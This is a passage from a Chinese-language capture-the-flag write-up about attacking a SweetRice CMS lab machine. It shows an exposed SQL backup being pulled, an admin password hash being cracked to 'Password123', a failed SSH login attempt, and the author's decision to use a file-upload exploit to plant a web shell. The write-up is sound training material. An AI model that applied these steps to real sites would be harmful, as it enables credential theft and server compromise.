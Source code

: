 有意思。所以我决定在浏览器中输入以下内容:

```
(#1) http://<target ip address>/content/inc/mysql_backup
(#2) http://<target ip address>/content/SweetRice-transfer.zip
```

链接#2 返回了一个“没有找到文件”404 错误，但是链接#1 给了我一个看起来像 SQL 转储的东西。因此，很自然地，我下载了它，并用文本编辑程序检查了它。我在第 79 行发现了一个有趣的条目:

```
[ ... snip ... ]14 => ‘INSERT INTO `% — %_options` VALUES(\’1\’,\’global_setting\’,\’a:17:{s:4:\\”name\\”;s:25:\\”Lazy Admin&#039;s Website\\”;s:6:\\”author\\”;s:10:\\”Lazy Admin\\”;s:5:\\”title\\”;s:0:\\”\\”;s:8:\\”keywords\\”;s:8:\\”Keywords\\”;s:11:\\”description\\”;s:11:\\”Description\\”;s:5:**\\”admin\\”;s:7:\\”manager\\”;s:6:\\”passwd\\”;s:32:\\”42f749ade7f9e195bf475f37a44cafcb\\”**;s:5:\\”close\\”;i:1;s:9:\\”close_tip\\”;s:454:\\”<p>Welcome to SweetRice — Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\”Site close\\” to open your website.</p><p>More help at <a href=\\"[http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\](http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\)">Tip for Basic CMS SweetRice installed</a></p>\\”;s:5:\\”cache\\”;i:0;s:13:\\”cache_expired\\”;i:0;s:10:\\”user_track\\”;i:0;s:11:\\”url_rewrite\\”;i:0;s:4:\\”logo\\”;s:0:\\”\\”;s:5:\\”theme\\”;s:0:\\”\\”;s:4:\\”lang\\”;s:9:\\”en-us.php\\”;s:11:\\”admin_email\\”;N;}\’,\’1575023409\’);’,[ ... snip ... ]
```

这看起来像是包含了管理员面板的配置信息。目测 SQL 条目，我看到:

```
”admin\\”;s:7:\\”manager\\”;s:6:\\”passwd\\”;s:32:\\”42f749ade7f9e195bf475f37a44cafcb\\”
```

好像用户名是`manager`，密码是 hash `42f749ade7f9e195bf475f37a44cafcb`。我用 [CrackStation (n.d.)](https://crackstation.net/) 破解 hash，得到了`Password123`的结果。

鉴于这个房间名为“LazyAdmin”，我尝试使用管理器和密码 123 用户名和密码组合登录 SSH 服务:

```
**└─$ ssh manager@<target ip address>** 
The authenticity of host ‘<target ip address> (<target ip address>)’ can’t be established.
ED25519 key fingerprint is SHA256:gIHwIzi5a1G1WvkLMxJuFhSXiUnHy58kdQUcxmC6rIQ.
This host key is known by the following other names/addresses:
 ~/.ssh/known_hosts:80: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added ‘<target ip address>’ (ED25519) to the list of known hosts.
manager@<target ip address>’s password: **[Password123]**
Permission denied, please try again.
manager@<target ip address>’s password: **[Password123]**
Permission denied, please try again.
manager@<target ip address>’s password: **[Password123]**
manager@<target ip address>: Permission denied (publickey,password).
```

嗯，我的直觉到此为止😋

## 文件上传漏洞

所以我想我应该专注于开发 sweet rice web 应用程序。我试着摆弄管理面板，但没有任何进展。因此，回头看一下 SearchSploit 的结果，我注意到了另一个名为“sweet rice 1 . 5 . 1——任意文件上传”的漏洞，我意识到我可以用它将 web shell 上传到 web 服务器上。
